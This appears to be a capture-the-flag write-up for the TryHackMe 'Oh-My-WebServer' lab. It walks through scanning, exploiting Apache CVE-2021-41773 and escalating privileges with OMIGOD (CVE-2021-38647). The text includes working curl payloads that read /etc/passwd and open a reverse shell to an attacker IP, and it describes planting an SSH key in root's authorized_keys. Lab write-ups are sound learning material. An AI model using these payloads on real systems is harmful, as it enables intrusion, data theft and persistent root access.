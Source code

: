 ```yaml
---
title: Oh-My-WebServer TryHackMe Writeup
tags: [writeup,tryhackme,apache,linux,omigod,cve-2021-41773]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/2.png)

## Enumeration
We access the website and find this page of an active web server:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/3.png)

We launch **dirsearch** to search for existing directories or files that may be relevant for other attacks.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/4.png)


## Exploitation
Exploited vulnerability CVE-2021-41773

#### PoC
```bash 
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/5.png)

### Reverse shell
```bash
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.8.246.129/443 0>&1' -H "Content-Type: text/plain"
```
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/6.png)

### Attack Machine
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/7.png)

It looks like we are on a docker machine and we will need to exit the docker and connect to the host machine.

## Privilege Escalation
There is a script in "*/tmp*"
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/8.png)


### Exploit: [https://github.com/midoxnet/CVE-2021-38647](https://github.com/midoxnet/CVE-2021-38647)

#### PoC
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/9.png)

We list the root directory, we could "cheat" and read the flag directly, but the idea is to exploit the vulnerability and get privilege escalation as root.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/10.png)

We see that the "*id_rsa*" file does not exist, but the "*authorized_keys*" file does exist, remember that the machine has the **SSH** service open, so we will take advantage of the vulnerability to transfer our public key to the file and enter by **SSH** with the "*root*" user.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/11.png)

We put our public key in the file "*authorized_keys*" exploiting the vulnerability "**OMIGOD**".
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/12.png)

We connect via **SSH** with our private key and read the root flag.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/13.png)

I almost forgot! We still need to identify the user flag, let's do a **find** in the root directory and we will get it easily.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/14.png)



